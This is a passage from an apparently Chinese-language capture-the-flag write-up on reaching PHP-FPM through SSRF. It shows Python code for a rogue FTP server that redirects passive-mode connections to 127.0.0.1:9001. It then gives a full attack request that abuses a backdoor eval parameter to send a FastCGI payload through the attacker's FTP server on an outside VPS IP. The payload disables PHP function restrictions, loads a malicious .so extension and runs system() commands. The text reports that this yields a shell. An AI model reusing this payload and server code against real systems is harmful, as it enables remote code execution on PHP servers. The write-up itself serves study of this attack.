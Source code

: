 ```
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

最后通过 eval() 构造如下恶意代码通过 file_put_contents() 函数与我们 VPS 上恶意的 FTP 服务器建立连接：

带着我们Exp生成的Payload后的DATA部分去触发SSRF即可执行我们so文件中的命令

```
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://aaa@47.93.248.221:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%029%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%ADPHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+1.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

这里的端口是恶意ftp的端口

![image-20211108190158699](images/13.png)

拿到shell

![image-20211108190234336](images/14.png)

不是读flag的时候发现权限不允许
